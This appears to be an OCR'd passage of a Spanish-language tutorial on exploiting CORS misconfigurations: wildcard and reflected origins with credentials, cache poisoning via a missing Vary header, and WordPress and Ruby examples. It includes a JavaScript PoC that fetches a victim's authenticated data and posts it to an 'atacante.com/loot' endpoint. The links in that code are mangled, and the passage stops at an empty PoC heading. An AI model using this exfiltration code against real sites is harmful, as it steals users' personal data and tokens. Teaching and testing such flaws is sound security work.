 ````
**Problema añadido:**
Algunos clientes (no todos los navegadores) sí permiten credenciales con `*`. Esto abre la puerta a fugas en entornos híbridos (APIs, apps móviles, lenguajes menos estrictos).

**Ejemplo práctico:**
Un endpoint `/api/info` devuelve emails internos.
Tu HTML en `https://atacante.com` hace `fetch` sin bloqueos: los datos se exponen directamente.

---

## 4. Reflejo del Origin: “The Reflection Trap”

Muchos servidores hacen:

````
Access-Control-Allow-Origin: <valor del Origin recibido>
Access-Control-Allow-Credentials: true
````

Esto significa que cualquier dominio que llame con `Origin: https://atacante.com` puede recibir datos autenticados del usuario víctima.

**PoC típica:**

```
fetch("[https://victima.com/api/usuario](https://victima.com/api/usuario)", {
credentials: "include",
headers: { "Origin": "[https://atacante.com](https://atacante.com/)" }
})
.then(r => r.json())
.then(data => fetch("[https://atacante.com/loot](https://atacante.com/loot)", {
method: "POST",
body: JSON.stringify(data)
}));
```

**Nivel avanzado:** si se olvida configurar `Vary: Origin`, el servidor puede cachear la respuesta y la misma versión “autenticada” servirse a otros usuarios (cache poisoning con robo de datos).

---

## 5. Caso real: API de WordPress

Endpoints típicos:

- `/wp-json/wp/v2/users` → datos de usuarios (público).
- `/wp-json/wp/v2/users/me` → perfil completo, solo autenticado.

**Explotación:**
Si un usuario está logueado y CORS con credenciales está abierto, un iframe o HTML malicioso en `atacante.com` roba su información personal completa.

---

## 6. Caso real: Ruby “Error Breakdown”

En apps tipo *Pastebin*, forzar un endpoint a devolver error en formato JSON puede exponer:

- Nombre, mail, teléfono.
- Tokens de sesión.
- Claves internas.

**PoC ejemplo:**

````